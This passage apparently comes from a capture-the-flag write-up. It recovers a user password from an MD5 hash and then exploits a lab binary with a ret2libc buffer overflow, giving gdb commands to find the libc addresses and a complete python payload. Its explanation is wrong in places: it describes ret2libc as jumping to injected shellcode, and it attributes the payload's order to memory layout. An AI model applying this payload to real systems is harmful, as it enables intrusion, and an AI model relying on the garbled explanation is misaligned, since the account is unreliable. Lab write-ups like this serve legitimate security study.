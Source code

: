 
Which draws letters SLASH
Enconding it with MDA5sum, we get password for another user.
646da671ca01bb5d84dbb5fb2238dc8e

Logging onto the final user, we find a file exploit_me. The first way to exploit it:
# ret2libc attack

The main function utilizes the unsafe <code>strcpy()</code> function, which is vulnerable to buffer overflow attacks. There is no direct <code>system()</code> call, so we may need to find our own way to access it. This situation is commonly referred to as a <code>return to libc</code> attack, where the overflow overwrites the return address with the memory address of the injected shellcode. Upon returning from the function, instead of jumping to the legitimate address, it redirects execution flow to the shellcode. There are 3 prerequisites for planning this type of attack:
- <code>system()</code> - which allows executing shell commands
- <code>exit()</code> - used to terminate the program after executing the shell command
- <code>/bin/bash</code> - which is passed as an argument to <code>system()</code> to spawn a shell

``` shell
overflow --EXPLOIT--> system() --> exit() --> /bin/bash
```
To find the offset, we can use an online tool ([Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)). To find the addresses, we use <code>gdb</code>:
``` shell
(gdb) b main
(gdb) r
(gdb) p &system
(gdb) p &exit
(gdb) find &system, +999999999, "/bin/sh"
```

It might seem weird that the <code>/bin/bash</code> comes after <code>exit()</code>. When a program is compiled and linked, functions like <code>system()</code> and <code>exit()</code> from the libc are typically located before any static data such as strings. Therefore, the address of the <code>exit()</code> function usually comes before the address of the <code>/bin/bash</code> string in memory.

## exploit
The exploit is constructed using the addresses and overflow in the following order:
- Offset of 140 bytes.
- The three function addresses in little-endian format.
``` shell
./exploit_me $(python -c 'print "F"*140 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1]')
```
